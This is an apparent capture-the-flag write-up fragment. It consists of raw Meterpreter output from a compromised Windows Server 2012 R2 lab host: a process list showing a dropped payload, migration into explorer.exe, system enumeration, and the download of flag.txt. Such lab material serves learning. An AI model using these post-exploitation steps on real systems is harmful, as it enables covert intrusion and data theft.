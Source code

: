 ```
 2236  2224  explorer.exe          x64   1        WIN-OMCNBKR66MN\Administrator  C:\Windows\explorer.exe
 2320  2596  oUeujjzFnDugeFt.exe   x86   1        WIN-OMCNBKR66MN\Administrator  C:\Users\ADMINI~1\AppData\Local\Temp\1\rad7EDFA.tmp\oUeujjzFnDugeFt.exe
 2596  2124  wscript.exe           x86   1        WIN-OMCNBKR66MN\Administrator  C:\Windows\SysWOW64\wscript.exe
 2656  2236  powershell.exe        x86   1        WIN-OMCNBKR66MN\Administrator  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 2676  2656  conhost.exe           x64   1        WIN-OMCNBKR66MN\Administrator  C:\Windows\System32\conhost.exe
 2944  2000  conhost.exe           x64   1        WIN-OMCNBKR66MN\Administrator  C:\Windows\System32\conhost.exe
```

```
meterpreter > migrate 2236
[*] Migrating from 2320 to 2236...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

```
meterpreter > dir
meterpreter > cd c:\\
meterpreter > dir
Listing: c:\
============

Mode              Size       Type  Last modified              Name
----              ----       ----  -------------              ----
40777/rwxrwxrwx   0          dir   2020-08-12 09:43:47 +0530  $Recycle.Bin
100666/rw-rw-rw-  1          fil   2013-08-22 21:16:48 +0530  BOOTNXT
40777/rwxrwxrwx   0          dir   2013-08-22 20:18:41 +0530  Documents and Settings
40777/rwxrwxrwx   0          dir   2013-08-22 21:09:30 +0530  PerfLogs
40555/r-xr-xr-x   4096       dir   2013-08-22 19:06:16 +0530  Program Files
40777/rwxrwxrwx   4096       dir   2013-08-22 19:06:16 +0530  Program Files (x86)
40777/rwxrwxrwx   4096       dir   2013-08-22 19:06:16 +0530  ProgramData
40777/rwxrwxrwx   0          dir   2020-09-05 09:16:25 +0530  System Volume Information
40555/r-xr-xr-x   4096       dir   2013-08-22 19:06:16 +0530  Users
40777/rwxrwxrwx   24576      dir   2013-08-22 19:06:16 +0530  Windows
100444/r--r--r--  398356     fil   2013-08-22 21:16:48 +0530  bootmgr
100666/rw-rw-rw-  32         fil   2020-09-14 12:21:58 +0530  flag.txt
40777/rwxrwxrwx   0          dir   2020-09-14 11:40:20 +0530  hfs
0000/---------    219552576  fif   1976-12-15 21:06:32 +0530  pagefile.sys

meterpreter > download flag.txt
[*] Downloading: flag.txt -> flag.txt
[*] Downloaded 32.00 B of 32.00 B (100.0%): flag.txt -> flag.txt
[*] download   : flag.txt -> flag.txt
meterpreter > cat flag.txt
f74c8347798f4082daf4b4570dba094ameterpreter > pwd
c:\
```
